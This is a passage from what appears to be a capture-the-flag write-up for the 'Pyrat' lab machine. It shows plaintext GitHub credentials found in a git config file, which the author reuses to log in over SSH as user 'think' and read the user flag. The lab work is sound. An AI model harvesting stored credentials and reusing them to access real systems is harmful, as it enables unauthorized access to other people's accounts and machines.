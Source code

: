 ```
[user]
        name = Jose Mario
        email = josemlwdf@github.com

[credential]
        helper = cache --timeout=3600

[credential "https://github.com"]
        username = think
        password = _TH1NKINGPirate$_
```

Despite there being the credentials of the github account, it probably would be re-used as the local password of this user on this machine. I decided to make an attempt, and one more time, it worked:

```
$ ssh think@pyrat.thm
think@pyrat.thm's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-150-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 17 Oct 2024 02:05:56 PM UTC

  System load:  0.08              Processes:             113
  Usage of /:   46.8% of 9.75GB   Users logged in:       0
  Memory usage: 61%               IPv4 address for eth0: 10.10.31.104
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

You have mail.
Last login: Thu Jun 15 12:09:31 2023 from 192.168.204.1
think@Pyrat:~$ whoami;id;pwd
think
uid=1000(think) gid=1000(think) groups=1000(think)
/home/think
think@Pyrat:~$ ls -lht
total 8.0K
drwx------ 3 think think 4.0K Jun 21  2023 snap
-rw-r--r-- 1 root  think   33 Jun 15  2023 user.txt
think@Pyrat:~$ cat user.txt
[REDACTED]
```
